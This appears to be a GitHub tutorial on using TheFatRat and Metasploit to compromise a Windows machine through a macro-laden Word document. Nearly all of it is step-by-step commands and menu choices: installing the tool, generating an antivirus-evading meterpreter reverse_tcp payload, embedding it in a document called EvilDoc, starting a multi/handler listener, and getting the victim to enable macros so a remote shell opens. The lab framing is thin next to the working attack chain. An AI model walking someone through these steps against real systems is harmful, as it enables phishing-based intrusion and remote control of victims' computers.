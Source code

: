# Hacking Windows with Malicious Office Document using TheFatRat

TheFatRat is an exploiting tool which compiles a malware with famous payload, and then the compiled malware can be executed on Linux, Windows, Mac and Android. TheFatRat Provides An Easy way to create Backdoors and Payload which can bypass most anti-virus.

Official Repository: https://github.com/Screetsec/TheFatRat

# Objectives

How to use an office document to exploit a windows machine.

# Requisites

Windows Server 2016/2012 virtual machine.

Kali linux virtual machine.


# Set up TheFatRat

TheFatRat provides an easy way to create backdoors and payloads which can bypass most anti-virus systems.


# Setting up

1:-> Go to your Kali machine and open the Terminal.

2:-> Navigate to the /opt/ folder.

$=>  cd /opt

3:-> Clone the original github repository from FatRat:

$=> git clone https://github.com/Screetsec/TheFatRat.git

4:-> Change the folder permissions:

$=> chmod -R 755 /opt/TheFatRat/

5:-> Go to the TheFatRat folder:

$=> cd TheFatRat/

6:-> Execute the bash file (setup.sh) to begin the installation:

$=> ./setup.sh

An Updating Kali Repo xterm window will popup will be shown:



# Make a Backdoor File

After the installation is complete, in the Terminal, type fatrat and hit enter.



When FatRat launches, starts to verify the installed dependencies, you will get multiple prompts, just type Enter to continue.



7:-> On the FatRat menu, choose [06] Create Fud Backdoor 1000% with PwnWindws [Excelent] by typing 6.

8:-> PwnWinds menu appears as shown above, choose the [3] Create exe file with apache + Powershell (FUD 100%) by typing 3 in the menu.

8:-> Set the LHOST IP to your Kali IP; LPORT to 4444 and the output to payload .

9:-> Next, chose [3] windows/meterpreter/reverse_tcp by typing 3.

10:-> If everything works, fatrat will generate a payload.exe file located on /root/Fatrat_Generated/ as shown below:

$   Backdoor Saved To : /root/Fatrat_Generated/payload.exe





# Make a Malicious Word File



11:-> Go back to the main menu by choosing [9] Back to menu.

12:-> On the main menu, choose the [07] Create Backdoor For Office with Microsploit

13:-> On the Microsploit menu, choose [2] The Microsoft Office Macro on Windows by typing 2.



# The next configurations will be:

14:-> LHOST IP: [Your Kali IP]

15:-> LPORT: 4444

16:-> Enter the base name for output files: EvilDoc

17:-> Enter the message for the document body: you have been PWNED :)

18:-> The next prompt will ask if you want to use a custom exe to file backdoor. Choose y for yes.

19:-> Specify the exactly path to your payload.exe that you generated on the beginings of this lab: /root/Fatrat_Generated/payload.exe

20:-> On the Payload Option, choose the [3] windows/meterpreter/reverse_tcp by typing 3. Navigate to output folder of FatRat to you will 
see the generated Word file.





# Set Up a Listener



21:-> Open another Terminal window and launch metasploit by typing: msfconsole.

22:-> Select the multi/handler:

23:-> use multi/handler

24:-> Set the payload to meterpreter/reverse_tcp:

25:-> set payload windows/meterpreter/reverse_tcp

26:-> Set the LHOST to your Kali IP and LPORT to 4444:

27:-> set LHOST 10.0.2.42

28:-> set LPORT 4444



29:-> Type run to start the listener:

$ run



30:-> Share the Malicious Doc File



31:-> Open the Malicious doc



Open the downloads folder and click the MS Word file.

MS Word open the file in Protected View. Click Enable Editing as shown below:

If you got the SECURITY WARNING because of the Macros, click on Enable Content.

Now Switch back to the Kali, if everything works, you will find that have a Meterpreter session open in the Metasploit terminal.



Now you can view the exploited system details and so on. Informally you can call this action 'profit' :)













____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________


